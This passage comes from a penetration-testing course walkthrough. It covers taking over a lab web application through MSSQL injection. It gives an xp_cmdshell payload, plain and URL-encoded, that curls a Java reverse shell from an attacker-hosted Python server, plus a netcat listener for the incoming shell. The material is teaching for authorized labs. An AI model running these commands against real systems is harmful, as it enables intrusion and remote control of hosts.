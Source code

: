 Let's start by running python3 with -m http.server to run the HTTP server module and then specify our port. Since we used port 8000 in our curl command earlier, we'll reuse that value.

```bash
kali@kali:~$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Next, we'll update our SQL injection payload in Burp Suite Repeater to download RevShell.java. We'll need to write it to a directory that the database software can access. Most systems have _temp_[8](https://portal.offsec.com/courses/web-200-28380/learning/assembling-the-pieces-web-application-assessment-breakdown-37051/remote-code-execution-37068/obtaining-a-shell-37058#fn-local_id_375-8) directories that are world writeable. We'll try to write to the temp directory using the _%temp%_ system variable.

```sql
EXEC xp_cmdshell 'curl http://192.168.45.222:8000/RevShell.java --output %temp%/RevShell.java'; 
```

Let's paste our payload in Repeater, encode the spaces and percent signs, then click _Send_.
payload with `CTRL+U` in burpsuite
```bash
EXEC+xp_cmdshell+'curl+http%3a//192.168.45.222%3a8000/RevShell.java+--output+%25temp%25/RevShell.java'%3b+
```
Because the server responded with an HTTP 302, our payload seems to have worked. Let's check our Python HTTP server to verify.

```bash
...
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.50.131 - - [18/Jan/2022 16:38:46] "GET /RevShell.java HTTP/1.1" 200 -
```

Excellent. The server downloaded our reverse shell file. Let's stop our Python server with C+c.

Now we need to compile and run our shell file on the remote server. Java 11 and newer versions can run single .java files without having to explicitly compile them in advance.[9](https://portal.offsec.com/courses/web-200-28380/learning/assembling-the-pieces-web-application-assessment-breakdown-37051/remote-code-execution-37068/obtaining-a-shell-37058#fn-local_id_375-9) We don't know the version of Java running on the server, but let's try running the java command to compile and run our reverse shell.

First, however, we'll need to start a listener to handle the reverse shell.

```bash
kali@kali:~$ nc -nvlp 4444 
listening on [any] 4444 ...
```

Now that we have a listener running, let's update our SQL injection payload to run our reverse shell.

***On older versions of Java, we'd need to compile the source file using javac. The compiler creates a class file with the same name, but no file extension. In theory, we could compile it locally and upload the class file. However, we would have to know the version of Java running on the server to ensure we compiled our code at the right target version. Java is backwards-compatible, so newer versions of Java will run code compiled for older versions. However, there are exceptions where updates removed some APIs from newer versions due to security concerns.***
